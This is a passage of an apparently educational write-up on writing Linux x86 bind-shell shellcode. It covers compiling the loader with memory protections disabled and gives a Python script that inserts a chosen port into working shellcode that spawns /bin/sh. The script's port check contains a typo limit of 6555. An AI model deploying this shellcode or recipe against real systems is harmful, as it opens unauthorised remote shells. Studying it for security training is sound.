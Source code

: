 Then we have to compile the bindShell.c like this with the security protectors deactivated:
``` bash
gcc -fno-stack-protector -z execstack -no-pie bindShell.c -o bindShell
```
Then it's runnable and working the same way as the previous executable.

## Easily configurable Port and IP
For configuring the port I wrote a simple python script what could take the port as argument or letting the port be changed in the python code itself and transforms it to the correct notation and add this to the shellcode.
For this I divided the generated shellcode in the string before and after the port. Then it reads the port and transforms it to the right notation. In the end all 3 strings are concatenateed together and printed to the console. 
Also I added a simple check if the resulted shellcode contains null bytes which normally should be avoided.

``` python
#!/usr/bin/python3
import sys;
import socket;

shellcodeBeforePort = "\\x31\\xc0\\x31\\xdb\\xb3\\x01\\x50\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc7\\x31\\xc0\\xfe\\xc3\\x50\\x66\\x68"
shellcodeAfterPort = "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x31\\xc0\\xfe\\xc3\\xfe\\xc3\\x50\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x31\\xc0\\xfe\\xc3\\x50\\x50\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc7\\x31\\xc9\\xb1\\x02\\x89\\xfb\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x66\\x49\\x79\\xf4\\x31\\xc0\\x89\\xc1\\x89\\xc2\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

if (len(sys.argv) == 1):
  port = 1337
else:
  port = int(sys.argv[1])
  if port < 1 or port > 6555:
    print("Specify a real port")
    exit()

portNetwork = hex(socket.htons(int(port)))
portShell = "\\x"  + portNetwork[4:6] + "\\x" + portNetwork[2:4]


shellcode = shellcodeBeforePort + portShell + shellcodeAfterPort
if "00" in shellcode:
  print("There was a null byte found in the shellcode. Please change the port or the shellcode!")
print(shellcode)
```

Testing this with the input 4444 as port we get a different shellcode and can past it into the c programm, compile it and execute it the same way as before. As you can see in the pictures it is working.

![PythonCreation](images/PythonCreation.png)
